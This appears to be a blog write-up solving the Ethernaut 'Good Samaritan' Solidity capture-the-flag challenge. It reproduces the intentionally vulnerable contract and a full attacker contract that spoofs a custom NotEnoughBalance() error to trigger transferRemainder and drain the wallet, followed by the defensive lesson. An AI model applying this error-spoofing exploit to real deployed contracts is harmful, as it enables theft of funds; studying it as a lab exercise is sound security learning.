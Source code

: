 ```yaml
---
title: Ethernaut - Good Samaritan - Solution
date: '2024-06-14'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the Ethernaut - Good Samaritan CTF
---
```


# Ethernaut - Good Samaritan - Solution

## Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0 <0.9.0;

import "openzeppelin-contracts-08/utils/Address.sol";

contract GoodSamaritan {
    Wallet public wallet;
    Coin public coin;

    constructor() {
        wallet = new Wallet();
        coin = new Coin(address(wallet));

        wallet.setCoin(coin);
    }

    function requestDonation() external returns (bool enoughBalance) {
        // donate 10 coins to requester
        try wallet.donate10(msg.sender) {
            return true;
        } catch (bytes memory err) {
            if (keccak256(abi.encodeWithSignature("NotEnoughBalance()")) == keccak256(err)) {
                // send the coins left
                wallet.transferRemainder(msg.sender);
                return false;
            }
        }
    }
}

contract Coin {
    using Address for address;

    mapping(address => uint256) public balances;

    error InsufficientBalance(uint256 current, uint256 required);

    constructor(address wallet_) {
        // one million coins for Good Samaritan initially
        balances[wallet_] = 10 ** 6;
    }

    function transfer(address dest_, uint256 amount_) external {
        uint256 currentBalance = balances[msg.sender];

        // transfer only occurs if balance is enough
        if (amount_ <= currentBalance) {
            balances[msg.sender] -= amount_;
            balances[dest_] += amount_;

            if (dest_.isContract()) {
                // notify contract
                INotifyable(dest_).notify(amount_);
            }
        } else {
            revert InsufficientBalance(currentBalance, amount_);
        }
    }
}

contract Wallet {
    // The owner of the wallet instance
    address public owner;

    Coin public coin;

    error OnlyOwner();
    error NotEnoughBalance();

    modifier onlyOwner() {
        if (msg.sender != owner) {
            revert OnlyOwner();
        }
        _;
    }

    constructor() {
        owner = msg.sender;
    }

    function donate10(address dest_) external onlyOwner {
        // check balance left
        if (coin.balances(address(this)) < 10) {
            revert NotEnoughBalance();
        } else {
            // donate 10 coins
            coin.transfer(dest_, 10);
        }
    }

    function transferRemainder(address dest_) external onlyOwner {
        // transfer balance left
        coin.transfer(dest_, coin.balances(address(this)));
    }

    function setCoin(Coin coin_) external onlyOwner {
        coin = coin_;
    }
}

interface INotifyable {
    function notify(uint256 amount) external;
}
```

## Solution

The goal of this challenge is to drain the `Wallet`.

To do so, we can use the following attacker contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IGoodSamaritan {
    function requestDonation() external returns (bool);
}

contract GoodSamaritanAttacker {
    IGoodSamaritan public immutable VICTIM;

    error NotEnoughBalance();

    constructor(address victim) {
        VICTIM = IGoodSamaritan(victim);
    }

    function attack() external {
        VICTIM.requestDonation();
    }

    function notify(uint256 amount) external pure {
        if (amount == 10) {
            revert NotEnoughBalance();
        }
    }
}
```

Let's look at the different stages of the `attack()` function call to understand what's happening:

1. `attack()` will call `requestDonation()` to trigger a transfer of 10 tokens to our attacker contract.
2. The `Coin`'s `transfer()` function will then call our attacker's `notify()` function and since the `amount` will be 10, it'll revert.
3. This revert is bubbled up through the call chain until it is caught by the `catch` in the try-catch block of `GoodSamaritan`'s `requestDonation()` function.
4. Since the custom error we used to revert has the same signature as the original `NotEnoughBalance()` error, the `transferRemainder()` function will be called next, transferring the wallet's entire balance to our attacker.

Notice that the `if (amount == 10)` statement in our `notify()` function is crucial for `transferRemainder()` to not revert.

As we can see from this challenge, it is not safe to assume that an error was thrown by the immediate target of the contract call. 
Any other contract further down in the call chain can declare the same error and throw it at an unexpected location.